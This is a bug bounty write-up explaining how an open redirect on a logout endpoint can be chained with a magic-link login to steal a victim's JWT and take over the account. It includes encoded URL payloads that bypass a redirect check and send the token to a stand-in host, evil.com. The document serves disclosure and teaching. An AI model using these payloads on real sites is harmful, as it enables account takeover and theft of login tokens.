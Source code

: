 # Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By combining this vulnerability with authentication functionality, I was able to take over the user's account.

## Open Redirection Vulnerability:

### Original Request

![alt text](original_redirect.png)

### Steps

- The application had an endpoint like this <span style="color:red"> ***/logout*** </span> that takes a <span style="color:red">***GET***</span> parameter called <span style="color:red">***r***</span>.
- The parameter <span style="color:red">***r***</span> takes an endpoint to be redirected to like this <span style="color:red">***/logout?r=/dashboard***</span>.
- So I tried to put a valid host to see what it does like this <span style="color:red">***logout?r=https://program.com/***</span>.
- The application redirected me, so I knew that I could play with it to see what else I could get.
- I tried to set the host name to another domain like <span style="color:red">***r=https://evil.com/***</span> and the application responded with <span style="color:red">***invalid redirect uri***</span>.
- Knowing this I thought of listing some payloads to try out:<br>
  <span style="color:red">***r=https://evil.com/program.com***</span><br>
  <span style="color:red">***r=https://program.com.evil.com***</span><br>
  <span style="color:red">***r=https://program.com@evil.com***</span><br>
  <span style="color:red">***r=https://evil.com@program.com***</span><br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.

- So at first, why did we try these payloads?
  - When I try to find an open redirection, I first try to know what url format is allowed or understandable by browsers. So, the meaning of <span style="color:red">***https://john@program.com***</span> is that you are trying to access <span style="color:red">***program.com***</span> as username <span style="color:red">***john***</span>. You can try this on firefox or chrome. 
  - So, by knowing this, I was thinking, what if the developer is using a regex that validates this format,and when someone tries to change the value of <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com@program.com***</span> he validetes it as a valid value because he knows that it's the same thing. The user will be redirected to program.com at the end, too.
  - Another question comes to mind. What is the set of characters allowed before <span style="color:red">***@***</span> I tried to test it on the browser to see what is allowed. And, I have found that the browser when I put an encoded value like this <span style="color:red">***john%2f***</span> as a username, it validates it and sees it as a valid value. You can try it <span style="color:red">***john%2f@google.com***</span>.
  - I tried to set <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com%252f@program.com/***</span> and sent the request. The response successfully redirected me to <span style="color:red">***https://evil.com/@program.com/***</span>
  - So, let's break the payload.
    - The application validates this <span style="color:red">***john@program.com***</span> as a valid format.
    - So I tried to inject <span style="color:red">***/***</span> in the payload but double-encoded  like this <span style="color:red">***https://evil.com%252f@program.com/***</span>.
    - It's double encoded because if I encode once, it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this <span style="color:red">***https://evil.com%2f@program.com/***</span>.
    - Then the response returns the redirection like this <span style="color:red">***https://evil.com/@program.com***</span>.
    - As you can see, the browser will treat <span style="color:red">***/@program.com***</span> as a path to <span style="color:red">***https://evil.com***</span> and the redirection successfully happens to <span style="color:red">**evil.com**</span>.
- Another important thing is that the <span style="color:red">***/logout***</span> endpoint sends any get parameter with the new redirection, like this <span style="color:red">**/logout?r=https://evil.com%252f@program.com&heap=heap**</span> the redirection will be like this <span style="color:red">**https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap**</span>.

### Exploited Request

![alt text](exploited_request.png)

## Exploiting The Login Functionality.

### Original Request

![alt text](magic_link_original_request.png)

### Steps

- The application has the functionality to send you a magic link to login with it. This endpoint takes span style="color:red">***email***</span> and <span style="color:red">***redirect_uri***</span> parameters. So, after trying to find a vulnerability in the email, I tried to find out what I could do with the <span style="color:red">***redirect_uri***</span>.
- The <span style="color:red">***redirect_uri***</span> takes a url, and the application appends a <span style="color:red">**JWT**</span> token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection, but with no clue.
- But, what if I could edit the path of the url like this <span style="color:red">**https://program.com/anypath/anypath**</span> I tried it and sent the request, and when I looked at my mail, I found that the magic link is like this <span style="color:red">**https://program.com/anypath/anypath?jwt=SOME_VALUE**</span>.
- Okay great, Can I combine this with the open redirection I have found before? set the <span style="color:red">**redirect_uri**</span> to <span style="color:red">**https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**</span>.
- And the magic link sent was like this <span style="color:red">**https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Clicking the link, I was redirected to <span style="color:red">**https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Doing this, I was able to get the JWT as an attacker, and using the JWT, I was able to login.
- So the same scenario applies if you want to target another user. You need an email, and after collecting the JWT, you can use it to login to the user's account.

### Exploited Request

![alt text](magic_link_exploited_request.png)

### My Info

#### Yeswehack  : <a href="https://yeswehack.com/hunters/mekky">https://yeswehack.com/hunters/mekky</a>

#### Intigriti  : <a href="https://app.intigriti.com/researcher/profile/mekky">https://app.intigriti.com/researcher/profile/mekky</a>

#### Linkedin   : <a href="https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/">https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/</a>

#### Twitter    : <a href="https://twitter.com/Mekky49295157">https://twitter.com/Mekky49295157</a>


